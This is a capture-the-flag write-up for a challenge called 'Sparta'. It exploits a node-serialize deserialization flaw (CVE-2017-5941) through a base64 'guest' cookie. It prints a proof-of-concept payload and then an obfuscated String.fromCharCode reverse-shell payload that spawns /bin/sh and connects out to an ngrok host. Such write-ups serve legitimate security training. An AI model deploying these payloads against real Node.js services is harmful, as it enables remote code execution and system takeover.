 ```yaml
---
description: node.js deserialization vulnerability leads to RCE.
---
```


# Sparta

## Problem

Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.

## Solution

In the given source code, we can see that the `/guest` endpoint deserializes the base 64 decoded `guest` cookie.

```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
       var str = new Buffer(req.cookies.guest, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
     var username = req.body.username 
     var country = req.body.country 
     var city = req.body.city
     var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
     res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
```

There is a well-known deserialization vulnerability in node.js that leads to RCE ([CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)).

By passing a serialized object like the following into `serialize.unserialize()`, we can achieve RCE.

```javascript
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });\n }()"}
```

This relies on JavaScript's Immediately Invoked Function Expression (IIFE): notice the IIFE bracket after the function expression:

```javascript
function (){ ... }()
```

Now, we can execute a reverse shell payload within the function that would be fired when the data is deserialized. Using [nodejsshell.py,](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) we can craft such a payload.

In my case: `python nodejsshell.py 2.tcp.ngrok.io 13755` allowed me to generate a reverse shell payload for my ngrok tunnel.

![](<../../.gitbook/assets/image (2).png>)

Then, we can copy the output into the function body.

```javascript
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,50,46,116,99,112,46,110,103,114,111,107,46,105,111,34,59,10,80,79,82,84,61,34,49,51,55,53,53,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}';
serialize.unserialize(payload);
```

Once we tested that our payload works, we can encode the payload to base 64, and send it through the cookie header.

![](<../../.gitbook/assets/image (3).png>)

We obtain a reverse shell, which allows us to read the flag.

![](<../../.gitbook/assets/image (4).png>)

## References:

1. [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
2. [https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
